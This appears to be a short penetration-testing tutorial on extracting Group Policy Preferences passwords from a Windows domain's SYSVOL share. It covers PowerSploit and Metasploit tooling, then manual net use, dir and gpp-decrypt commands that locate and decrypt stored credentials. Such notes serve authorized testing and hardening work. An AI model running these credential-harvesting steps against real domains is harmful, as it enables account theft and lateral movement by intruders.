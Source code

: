 

### Using PowerSploit

You can use `Get-GPPPassword` from powersploit to get gpp-passwords.

```
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Exfiltration/Get-GPPPassword.ps1
```


You can also use `Get-CachedGPPPassword`. It is included in the PowerSploit Privesc module.


### Using Metasploit


```
post/windows/gather/credentials/gpp
```


### Manually

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables

```
# Output environment-variables
set

# Look for the following:
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL

# Look up ip-addres
nslookup nameofserver.whatever.local

# It will output something like this
Address:  192.168.1.101

# Now we mount it
net use z: \\192.168.1.101\SYSVOL

# And enter it
z:

# Now we search for the groups.xml file
dir Groups.xml /s
```

If we find the file with a password in it, we can decrypt it like this in Kali

```
gpp-decrypt encryptedpassword
```

```
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```
